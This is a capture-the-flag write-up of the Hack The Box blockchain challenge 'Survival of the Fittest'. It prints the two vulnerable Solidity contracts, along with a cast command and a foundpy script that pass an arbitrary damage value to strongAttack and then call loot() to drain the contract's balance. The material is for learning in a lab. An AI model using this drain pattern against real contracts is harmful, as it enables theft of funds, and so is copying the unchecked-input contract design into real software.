 ```yaml
---
title: Survival of the Fittest Challenge
date: 2024-12-2 +0700
categories: [HTB, Blockchain]
tags: [Self-Development]
image:
  path: /images/Survival%20of%20the%20Fittest%201.png
description: A write-up from a challenge at Hack The Box
author: <author_id>
---
```


## Information
First of all i was given an URL, here is the first look:
![First Look at the Website](/images/Survival%20of%20the%20Fittest%201.png)

There is just a restart button and an attack button, but no matter how many times i press the attack button it wont just die, alright since there is docs, Home, and Connection page on the header, let's visit it one by one

## Home
Yeah the same as the pciture above

## Docs
![Docs Section](/images/Survival%20of%20the%20Fittest%202.png)
Turns out it give you all the information you need to solve the challenge, hold it dearly and read carefully!

## Connection
![Connection Section](/images/Survival%20of%20the%20Fittest%203.png)
This section is the core information you need to solve the Challenge, alright everything has been written down, lets try to solve the challenge!

## Understanding the Workflow
There are two files given to the challengers to help them solve the challenge, here are the two files:

```text
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```
{: file="setup.sol"}

```text
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```
{: file="Creature.sol"}

now the goal here is to call the isSolved() function and make it true by making the balance zero, how to do that?

now let's take a look at the Creature.sol, there are two function to attack the creature, strongAttack function and punch function, if we use punch() the creature will get damaged one at a time, meanwhile the strongAttack() will deal damage according to (_damage), now you will get confused here if you just started learning blockchain like me at this time, what is _damage? you see there at the code that _damage is an uint256, it's a variable, and on blockchain, a variable, we can send any value into it, so the base payload gonna be:

`
cast send $ADDRESS_TARGET "functionWithArgs(uint)" 20 --rpc-url $RPC_URL --private-key $PRIVATE_KEY
`

alright now im going to demonstrate using foundpy since foundry is a pain in the ass if it's not on debian, let's use with the broad accessability shall we?

first of all if you guys want to follow my path by using foundpy too, you can learn how to use it on this documentation made by him
<https://pydigger.com/pypi/foundpy>

alright here is the setup to attack the creature
```javascript
from foundpy import *
config.from_htb(address="$DESTINATION")
config.setup(
    rpc_url="$RPC_URL",
    privkey="$0xsomething"
)
target_addr = "$0xsomething"
# to attack the creature
cast.send(target_addr, "strongAttack(uint256)", 20)
 # hey dont forget to loot it otherwise you wont get the flag!
cast.send(target_addr, "loot()")

# now call the isSolved to get the flag :3
setup_addr = "$0xsomething"
print(cast.call(setup_addr, "isSolved()"))
```
{: file="attack.py"}

here is the step by step on how to use foundpy based on my experience
1. initialize config.from_htb
2. command the config.from_htb
3. input the `rpc_url` and the `privkey` and the `target_addr` from the data you just fetch from the python config
4. now use the cast send to interact with the `strongAttack()` and `loot()` function
5. after you already interact with those two functions, disable them by command it
6. now input the `setup_addr` from the data you already got on step 1
7. lastly, call the function and print the output, if the output is something like this
`b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'`
8. Congratulations! you just solved a blockchain challenge! keep up the good work~
9. now access the <http://url/flag> to get you flag and submit it to the HTB to mark it as solved

that's all to do the Survival of the Fittest Challenges
thank you for reading :3



